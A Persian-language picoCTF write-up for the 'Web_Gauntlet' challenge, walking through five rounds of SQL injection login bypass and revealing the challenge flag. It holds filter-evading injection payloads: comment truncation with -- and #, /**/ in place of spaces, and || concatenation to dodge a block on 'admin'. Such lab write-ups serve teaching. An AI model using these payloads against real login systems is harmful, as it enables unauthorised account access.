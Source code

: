 ```yaml
---
tags:
  - وب
---
```

# Web_Gauntlet

سلام بر همه‌ی دوستان گرامی ctf  
 با یه چالش وب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/88?category=1&difficulty=2&page=3) 
 قراره کلی injection انجام بدیم :))


میدونیم که تو لینک [filters](http://jupiter.challenges.picoctf.org:9683/filter.php) کاراکترهای فیلتر شده رو برامون نوشته و باید بدون استفاده از اونها injetion انجام بدیم.
[site](http://jupiter.challenges.picoctf.org:9683/) باید اینجا سعی کنیم در 5 راند متوالی به عنوان ادمین وارد بشیم.


##راند یک:
از `or` نمی‌تونیم استفاده کنیم.

!!! payload
    `admin' ; -- `

صرفا کافیه که بیایم یوزرنیم رو برابر admin بذاریم و باقی ماجرا رو کامنت کنیم.


##راند دو:

####رشته های غیر مجاز:

`or` `and` `like` `=` `--`

payload:

`admin'; # `

همون داستان قبلی فقط به جای `--` از `#` استفاده می‌کنیم!

##راند سه:

####رشته های غیر مجاز:

` ` `or` `and` `=` `like` `>` `<` `--`

اینجا حتی نمی‌تونیم از space استفاده کنیم !!!

payload:

`admin';#`

همون قبلی مثل اینکه جواب میده!!!

!!! نکته
    اگر اینجا مشکل space داشتیم می‌تونستیم از `/**/` استفاده کنیم به جای space.

##راند چهار:

####رشته های غیر مجاز:

` ` `or` `and` `=` `like` `>` `<` `--` `admin`

خب عالی شد. حتی از `admin` هم نمی‌تونیم استفاده کنیم.
احتمالا باید بگردیم دنبال concat کردن استرینگ تو کامندهای sql.

payload:

`admi'||'n';#`

ظاهرا `||` به عنوان concat کار می‌کنه!

##راند  آخر:
` ` `or` `and` `=` `like` `>` `<` `--` `admin` `union`
خب ما که تو راند قبلی از `union` استفاده نکردیم. پس بیاین اینجا همون payload قبلی رو استفاده کنیم.

payload:

`admi'||'n';#`


فلگ رو یافتیم !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{y0u_m4d3_1t_d846125f7bdbf4d6e89cbc5edb6fa739}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)
